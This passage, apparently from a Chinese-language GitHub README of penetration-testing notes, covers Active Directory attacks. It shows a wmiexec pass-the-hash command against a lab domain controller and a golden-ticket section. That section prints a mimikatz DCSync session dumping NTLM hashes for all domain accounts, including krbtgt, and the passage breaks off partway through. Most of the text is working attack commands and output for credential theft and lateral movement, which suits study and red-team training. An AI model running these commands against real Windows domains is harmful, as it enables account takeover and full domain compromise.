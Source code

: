 #### wmiexec

上面写过了。。。

```
wmiexec.exe -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100
```

![image-20220319165549388](README/image-20220319165549388.png)

## PTT(Pass the ticket)

### 黄金票据

Golden Ticket（下面称为金票）是通过伪造的TGT（Ticket Granting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的ST。可以说有了金票就有了域内的最高权限。

条件：

1、域名称 

2、域的 SID 值 

3、域的 KRBTGT 账号的 HASH 

4、伪造任意用户名

得到kratgr的hash：

```sh
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:ghost.com /all /csv
[DC] 'ghost.com' will be the domain
[DC] 'WIN-4JS3YOGGQ2T.ghost.com' will be the DC server
[DC] Exporting domain 'ghost.com'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
1001    WIN-4JS3YOGGQ2T$        b443a0863dfb6f394b46983d0d795fb6        532480
1104    DM_WIN2003$     13e19dba1a1ad144d9bced3585afa9a9        4096
500     Administrator   520126a03f5d5a8d836f1c4f34ede7ce        512
1000    DC      520126a03f5d5a8d836f1c4f34ede7ce        544
502     krbtgt  a5269d41b184a97adc9b991f2ee21f12        514
1105    DM_WINXP$       5469d97f136d8662f65377f3ea8e4835        528384
1107    yutao   520126a03f5d5a8d836f1c4f34ede7ce        66048
1109    yutaowin10      520126a03f5d5a8d836f1c4f34ede7ce        66048
1108    DM_WIN10$       bc3746c7020c2c97eac589107a57790f        4096
1110    DM_WIN10_2$     aa5910b813ef7a8784d7522dad99ee07        4096
mimikatz # lsadump::dcsync /domain:ghost.com /user:krbtgt
[DC] 'ghost.com' will be the domain
```